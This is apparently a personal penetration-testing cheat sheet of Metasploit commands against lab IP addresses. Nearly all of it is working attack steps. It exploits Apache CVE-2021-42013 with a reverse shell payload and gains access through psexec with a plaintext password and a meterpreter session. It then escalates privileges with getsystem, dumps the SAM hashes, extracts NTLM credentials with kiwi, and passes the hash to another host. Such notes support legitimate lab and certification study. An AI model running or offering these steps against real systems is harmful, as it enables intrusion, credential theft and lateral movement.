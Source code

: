 #Vulnerability_Exploitation 

## Exploiting vulnerable applications and services

Exploiting Apache RCE (CVE-2021-42013)
```
use multi/http/apache_normalize_path_rce
set payload payload/linux/x64/shell_reverse_tcp
set SSL false
set RPORT 80
set RHOSTS 192.168.69.42
run
```

Using exploit/windows/smb/psexec module to get access
```msfconsole
use exploit/windows/smb/psexec
set SMBUser salesman
set SMBPass "BullsBearsBirdsBees1!"
set RHOSTS 172.168.69.169
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
```

#Windows_Privilege_Escalation 

## Privilege Escalation 

Elevate privileges
```meterpreter
getsystem
```

## Dumping hashes

Dumps the contents of the SAM database
```meterpreter
hashdump
```

Load a module in active meterpreter session E.g., Kiwi
```meterpreter
load kiwi
```

Retrieve LM and NTLM credentials using loaded kiwi module
```meterpreter
creds_msv
```

#Pass_the_Hash 

Pass NTLM hash using psexec module
```msfconsole
use exploit/windows/smb/psexec
set LHOST 192.168.123.169
set LPORT 4455
set RHOST 192.168.123.170
set RPORT 445
set SMBUser bestsalesadmin
set SMBPass 35b04b5bada5eead4a514414033b3469:413416b534144aac5513d2968adc4869
```
